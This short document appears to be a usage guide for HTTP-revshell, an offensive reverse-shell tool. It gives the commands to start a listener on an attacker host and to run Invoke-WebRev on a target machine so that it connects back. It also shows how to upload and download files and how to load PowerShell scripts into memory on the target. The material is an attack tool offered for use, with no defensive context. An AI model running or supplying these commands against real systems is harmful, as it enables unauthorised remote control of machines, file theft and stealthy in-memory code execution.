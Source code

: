 ### Source
https://github.com/3v4Si0N/HTTP-revshell  

### Start listener
```
$> python3 server.py <lhost> <lport> --ssl
```

### Start on target machine
```
PS> Invoke-WebRev -ip <lhost> -port <lport> -ssl
```

### Upload/download files
```
PS> upload <source/path> <C:\destination\path>
```

### Load powershellscript into memory
```
PS> loadps1 <source/path>
```

### For server: you might need to install
```
apt install libncurses5-dev
```

